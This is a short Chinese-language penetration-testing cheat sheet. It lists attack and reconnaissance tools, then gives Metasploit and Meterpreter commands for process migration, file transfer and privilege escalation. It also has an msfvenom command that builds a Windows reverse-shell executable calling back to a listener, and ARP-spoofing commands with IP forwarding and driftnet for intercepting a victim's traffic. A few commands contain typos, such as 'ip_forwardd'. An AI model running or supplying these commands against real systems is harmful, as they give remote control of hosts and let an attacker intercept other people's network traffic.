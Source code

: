  
Firefox下

    Firebug，调试js，HTTP请求响应观察，Cookie，DOM树观察等；GreaseMonkey，自己改了个Cookie修改脚本，其他同学可以用这款：Original Cookie Injector for Greasemonkey；Noscript，进行一些js的阻断；AutoProxy，翻墙必备；

Chrome下

    F12打开开发者工具，功能==Firebug+本地存储观察等；SwichySharp，翻墙必备；Cookie修改脚本，自己写了一个Chrome扩展（已开源：Cookie利用神器：CookieHacker），其他同学可以自己到Chrome扩展搜个好用的；

前端渗透工具

    

HTTP代理工具

    Fiddler，即可，不用再寻找其他的了，watcher插件漏洞
    
    Burp Suite，HTTP代理，还有爬虫、漏洞扫描、渗透、爆破等功能

漏洞扫描工具

    AWVS，不仅漏扫方便，
    
    Python自写脚本/工具
    
    Nmap，绝对不仅仅是端口扫描,脚本

漏洞利用

    sqlmap，SQL注入利用
    
    Metasploit，主机渗透框架，；
    
    Hydra，爆破必备；

抓包工具

    Wireshark，抓包必备；tcpdump，Linux下命令行抓包，结果可以给Wireshark分析；

大数据平台

    ZoomEye，知道创宇开放的一个网络空间搜索引擎，搜搜组件就知道：ZoomEye（钟馗之眼），可以认为我在广告；SHODAN， 老外开放的一个网络空间搜索引擎，搜搜主机设备就知道：SHODAN – Computer Search Engine；Google，：）

熟练Linux众多命令+Vim

---

# Metasploit

---

search cve:2009 type:exploit app:client

info 展示相关信息

show advanced 列出所有高级配置

check 检车目标是否选定渗透攻击存在相应安全漏洞


---

# Metgetpid

注入进程　migrate 

上传文件  　upload　　

下载文件　　 download 

session -l 列出可用的交互会话

session -i number 选定会话

获取最高权限  sysinfo getsystem 

---
# msfvenom 

msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.103 lport=4444 -f exe -o back.exe

---

# Arp

apt install dsniff ssldump

arpspoof -i eth0 -t 目标IP 目标网关IP

echo 1 > /proc/sys/net/ipv4/ip_forwardd

driftnet -i eth0
